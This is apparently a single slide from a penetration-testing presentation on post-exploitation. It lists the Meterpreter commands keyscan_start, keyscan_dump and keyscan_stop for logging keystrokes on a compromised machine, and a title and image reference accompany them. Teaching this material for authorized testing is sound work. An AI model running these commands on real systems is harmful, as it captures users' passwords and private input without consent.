

# 4. Post- Exploitation: Keylogging via Meterpreter
Within meterpreter
keyscan_start
keyscan_dump
keyscan_stop

42